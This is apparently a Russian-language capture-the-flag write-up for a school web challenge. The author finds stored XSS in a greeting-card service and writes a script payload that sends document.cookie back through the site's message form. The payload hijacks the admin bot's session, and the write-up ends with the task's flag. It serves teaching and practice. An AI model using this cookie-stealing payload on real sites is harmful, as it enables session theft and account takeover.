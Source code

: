 Web

# Web
## [2.2] Новогоднее поздравление
 > У нас же новый год, верно?
 > Так как в текущих условиях нельзя поздравлять лицом-к-лицу, то мы создали сервис, на котором вы можете отправлять приглашения друг-другу!

 > Говорят, что у админа есть особое поздравление для вас... Только он его отдавать почему-то не хочет. Но с радостью открывает ссылки в поздравлениях для него. 84.201.172.73:12004

 > Кто решит данный таск получит отдельную 5+ с большим коэффициентом. Hint1: Вам нужно получить куку админа. Для этого вспомните все, что мы проходили и пересмотрите задачи на requests, один из сайтов вам поможет.

Категория: `web` `not_easy`

### Решение
Регистрируюсь на сайте. 

Пришло в голову протестировать систему приема сообщений на уязвимость XSS. Закинул тестовый payload себе в поздравления:

![01ff57a79a0dcad0b6ea900974bdbff2.png](89bc584a63294eefbef21d3c22d51a36.png)

Если на сайте присутствует уязвимость XSS до мой код выполнится и слово "Получилось" будет красным.

![c1952e4ca063fe04ea7147ae74a0c93b.png](14317a9fc19b49a5a8edab2af2292bd6.png)

Попробую составить код на javascript, который сворует куки чужого браузера (`document.cookies`) и с помощью POST запроса отправит мне в поздравления.

Смотрю на запрос отправки сообщения:

![d0e63b832fa8e679ec6de31fb215b334.png](5b33abac634641848e5c3a9a3e97a504.png)

Поле `username` используется для указания ника собеседника, `congr` для указания самого сообщения.

Получившийся XSS код:

```html
<script>var req = new XMLHttpRequest();req.open("POST", "http://84.201.172.73:12004/congr");req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");req.send("username=test&congr="+encodeURIComponent(document.cookie));</script>
```
Тестирую на себе:

![58520ebb793637c0a39e027f02d1a2b8.png](d810864aa54e4c43979bd3ab4fe6d417.png)

![8ee3a460d9ed68237c0bbb55d90f535e.png](88c87f3349654e118c522e5305989691.png)

Работает!

Отправляю админу:

![6dedd39a049aa10e189e4f572d42f2ed.png](dbc705998b694f348cdbb4776aca0f31.png)

![7fcc9160723edca6e84af57a1e588130.png](0b322daedf7342e1b894ef1d33ecf9bd.png)

Получил куки, подставил.

![417f816693ec6c84653fe17531d90468.png](8ecd36eb852640cfa1864f04bc97d4af.png)

![f07417e63fc409536b22212ef69b17b0.png](bcbd3ac5a43446a4a66bfa2820e2cc1a.png)

`Имя: admin Админ: True` - Я под админом.

Здесь веб за 50.

![14f19ae3737ef24942ed5606b40938a2.png](0aaead849121443f9e8fb2ce466acbc6.png)

Все.
### Флаг
`mshp{n3w_y34r_styl3d_xx5_5xpl0iting_i5_s0_funny}`

